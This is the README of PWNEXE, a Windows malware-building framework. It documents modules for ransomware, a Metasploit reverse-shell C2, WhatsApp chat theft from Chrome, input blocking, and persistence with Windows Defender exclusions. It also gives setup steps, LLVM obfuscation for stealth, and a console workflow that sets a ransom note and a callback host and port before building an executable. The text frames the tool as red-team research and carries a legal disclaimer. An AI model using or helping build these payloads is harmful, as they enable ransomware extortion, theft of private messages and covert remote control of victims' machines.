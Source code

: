 ## What's New

### VERSION 0.1.1
- **New Module: `daemon/chatwipe`** - WhatsApp chat extractor that automatically extracts the first 8 chats from a user's WhatsApp Web session in Google Chrome
- **Features:**
  - Automatically detects Chrome installation and WhatsApp Web login
  - Extracts both incoming and outgoing messages with timestamps

---

## Overview
**PWNEXE** is a modular Windows malware generation framework. It empowers security researchers and red teamers to rapidly build custom malware payloads by chaining together a variety of modules—such as ransomware, persistence loaders, C2 servers, and more—into a single executable. PWNEXE is designed for advanced adversary simulation, malware research, and authorized red team operations.

> **Warning:** This tool is for educational and authorized security research only. Misuse may be illegal and unethical.

---

## Features

- **Modular Payloads:** Chain multiple modules (ransomware, persistence, C2, etc.) into a single EXE.
- **Customizable Options:** Configure module and build options (e.g., ransom note, C2 port, EXE name).
- **In-Memory Execution:** Optional Rust loader for stealthy, in-memory payload delivery.
- **Obfuscation Support:** Optional payload obfuscation via LLVM and Rust.
- **Cross-Platform Build:** Uses Go and Rust for robust Windows payloads.
- **Fast Build Pipeline:** Output is saved to the `.LOOT` directory.

---

## Installation

1. **Clone the repository:**
   ```bash
   git clone https://github.com/sarwaaaar/PWNEXE.git
   cd PWNEXE
   ```
2. **Install Python 3.8+**
   ```bash
   python3 --version
   ```
3. **Install system dependencies:**
   - Go (for module compilation)
   - Rust (for in-memory loader)
   - **Docker** (required for payload obfuscation)
     - Pull the required Docker image for obfuscation:
       ```bash
       docker pull ghcr.io/joaovarelas/obfuscator-llvm-16.0:latest
       ```
     - This image is used to obfuscate Rust payloads using LLVM during the build process.
   - On macOS:
     ```bash
     brew install go rust
     ```
   - On Linux:
     ```bash
     sudo apt install golang rustc cargo
     ```

---

## Usage

Start the tool:
```bash
python3 main.py
```

### Command Reference

- `use <module>` — Add a module to the build chain
- `set <OPTION> <VALUE>` — Set build/module options
- `show modules` — List available modules
- `show options` — Show current build/module options
- `build` — Build the final EXE payload
- `clear` — Clear selected modules
- `delete` — Remove a module from the chain
- `exit` — Exit the tool

**For detailed documentation on each command and advanced usage, see the [PWNEXE Wiki](https://github.com/sarwaaaar/PWNEXE/wiki).**

### Example Workflow
```
> show modules
> use daemon/bartmoss
> set NOTE "Your files have been encrypted! Contact evil@domain.com."
> use daemon/spider
> set LHOST 192.168.1.10
> set LPORT 4444
> build
```
- The final EXE will be saved in the `.LOOT` directory.

---

## Available Modules

| Module                   | Description                                                        |
|--------------------------|--------------------------------------------------------------------|
| daemon/filedaemon        | Normal C2 server to receive data                                   |
| daemon/spider            | Metasploit C2 server (reverse shell/payload delivery)              |
| daemon/bartmoss          | Ransomware builder                                                 |
| daemon/chatwipe          | WhatsApp chat extractor - gets first 8 chats from Chrome login    |
| interfaceplug/blackout   | Screen blackout utility                                            |
| interfaceplug/suicide    | Block input (DoS)                                                  |
| quickhack/ping           | Sends back user info to the C2 server                              |
| quickhack/icepick        | Adds EXE to persistence and adds exclusion to Windows Defender      |

---

## Advanced Features
- **Module Chaining:** Combine multiple behaviors in one payload.
- **Custom Build Options:** Set EXE name, enable obfuscation, etc.
- **In-Memory Execution:** Use Rust loader for stealthy delivery.

---

## Legal Disclaimer

PWNEXE is intended for educational purposes and authorized security testing only. You must have explicit permission to use this tool against any system or network. The authors and contributors are not responsible for misuse, damage, or legal consequences. Always follow applicable laws and ethical guidelines.

---

## Contributing

Contributions are welcome! Please fork the repository, create a feature branch, and submit a pull request with a detailed description of your changes.

---

## License

MIT License. See the `LICENSE` file for details.
